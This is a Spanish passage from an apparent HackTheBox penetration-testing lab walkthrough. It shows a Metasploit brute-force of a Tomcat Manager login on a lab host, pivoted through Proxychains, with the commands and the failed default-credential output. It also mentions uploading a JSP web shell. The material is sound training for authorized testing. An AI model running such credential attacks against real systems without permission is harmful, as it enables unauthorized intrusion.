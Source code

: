 Desafortunadamente para nosotros, esto es un callejón sin salida.

---

## 172.16.8.50 - Tomcat

Nuestro escaneo Nmap anterior mostró el puerto 8080 abierto en este host. Al navegar a `http://172.16.8.50:8080`, vemos la última versión de Tomcat 10 instalada. Aunque no hay exploits públicos para ello, podemos intentar forzar la autenticación del Tomcat Manager como se muestra en la sección [Attacking Tomcat](https://academy.hackthebox.com/module/113/section/1211) del módulo `Attacking Common Applications`. Podemos iniciar otra instancia de Metasploit usando Proxychains escribiendo `proxychains msfconsole` para poder pivotar a través del host dmz01 comprometido si no tenemos el enrutamiento configurado a través de una sesión de Meterpreter. Luego podemos usar el módulo `auxiliary/scanner/http/tomcat_mgr_login` para intentar forzar la autenticación.



```r
msf6 auxiliary(scanner/http/tomcat_mgr_login) > set rhosts 172.16.8.50
rhosts => 172.16.8.50
msf6 auxiliary(scanner/http/tomcat_mgr_login) > set stop_on_success true
stop_on_success => true
msf6 auxiliary(scanner/http/tomcat_mgr_login) > run
|S-chain|-<>-127.0.0.1:8081-<><>-172.16.8.50:8080-<><>-OK

[!] No active DB -- Credential data will not be saved!
[-] 172.16.8.50:8080 - LOGIN FAILED: admin:admin (Incorrect)
|S-chain|-<>-127.0.0.1:8081-<><>-172.16.8.50:8080-<><>-OK
|S-chain|-<>-127.0.0.1:8081-<><>-172.16.8.50:8080-<><>-OK
|S-chain|-<>-127.0.0.1:8081-<><>-172.16.8.50:8080-<><>-OK
[-] 172.16.8.50:8080 - LOGIN FAILED: admin:manager (Incorrect)
|S-chain|-<>-127.0.0.1:8081-<><>-172.16.8.50:8080-<><>-OK
|S-chain|-<>-127.0.0.1:8081-<><>-172.16.8.50:8080-<><>-OK
|S-chain|-<>-127.0.0.1:8081-<><>-172.16.8.50:8080-<><>-OK
[-] 172.16.8.50:8080 - LOGIN FAILED: admin:role1 (Incorrect)

<SNIP>

|S-chain|-<>-127.0.0.1:8081-<><>-172.16.8.50:8080-<><>-OK
[-] 172.16.8.50:8080 - LOGIN FAILED: tomcat:changethis (Incorrect)
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

No obtenemos una autenticación exitosa, por lo que esto parece ser un callejón sin salida y no vale la pena explorar más. Si encontráramos una página de autenticación de Tomcat Manager expuesta a Internet, probablemente querríamos registrarlo como un hallazgo, ya que un atacante podría forzar la autenticación y usarla para obtener acceso inicial. Durante una interna, solo querríamos reportarlo si pudiéramos entrar con credenciales débiles y subir una shell web JSP. De lo contrario, verlo en una red interna es normal si está bien bloqueado.

---

## Enumerating 172.16.8.20 - DotNetNuke (DNN
